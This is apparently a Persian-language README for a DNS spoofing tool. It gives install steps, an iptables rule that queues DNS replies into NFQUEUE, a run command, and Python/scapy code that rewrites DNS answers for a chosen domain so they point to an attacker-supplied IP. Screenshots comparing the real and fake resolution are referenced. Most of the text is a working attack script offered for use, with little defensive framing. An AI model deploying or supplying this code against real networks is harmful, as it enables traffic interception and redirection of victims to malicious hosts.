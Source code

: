 # Dns Spoof



## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -A INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:

![real-dns](assets/real-dns.png)

دی ان اس فیک بعد از اجرای اسکریپت:

![fake-dns](assets/fake-dns.png)

خروجی اسکریپت:

![script-output](assets/script-output.png)
